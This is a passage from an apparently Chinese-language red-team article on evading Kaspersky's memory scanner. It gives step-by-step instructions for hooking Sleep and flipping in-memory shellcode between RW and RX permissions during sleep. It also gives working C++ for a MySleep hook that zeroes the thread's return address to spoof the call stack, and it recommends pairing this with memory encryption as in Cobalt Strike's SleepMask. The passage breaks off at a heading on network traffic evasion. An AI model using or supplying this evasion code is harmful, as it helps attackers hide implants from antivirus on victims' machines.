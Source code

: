
Bypass Kasperskey Memory Scanner：

![]()

  

    1. Hook Sleep 函数

    2. 定位内存中的shellcode

    3. 睡眠期间翻转为RW

    4. 睡眠结束翻转为RX

    5. 无限循环，以此规避内存扫描

  * 线程堆栈欺骗：欺骗线程堆栈返回地址

默认情况下，线程的返回地址指向我们驻留在内存中的shellcode，通过检查可疑进程中线程的返回地址，可以轻松识别到内存中的shellcode

  

最简单的方法，直接用0覆盖返回地址，从而截断堆栈

关键代码

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    void WINAPI MySleep(DWORD _dwMilliseconds){    const register DWORD dwMilliseconds = _dwMilliseconds;  
        // Perform this (current) thread call stack spoofing.    PULONG_PTR overwrite = (PULONG_PTR)_AddressOfReturnAddress();    const register ULONG_PTR origReturnAddress = *overwrite;  
        log("[>] Original return address: 0x", std::hex, std::setw(8), std::setfill('0'), origReturnAddress, ". Finishing call stack...");    *overwrite = 0;  
        log("\n===> MySleep(", std::dec, dwMilliseconds, ")\n");  
        // Perform sleep emulating originally hooked functionality.    ::SleepEx(dwMilliseconds, false);  
        // Restore original thread's call stack.    log("[<] Restoring original return address...");    *overwrite = origReturnAddress;}

效果对比：

默认线程调用堆栈：

![]()

  

欺骗后的线程调用堆栈：

![]()  

  

  * 总结：

堆栈欺骗+内存加密配合使用实战效果极佳，参考Cobalt Strike 4.7的SleepMask

  

## 0x04 Network traffic Evasion(网络流量规避)
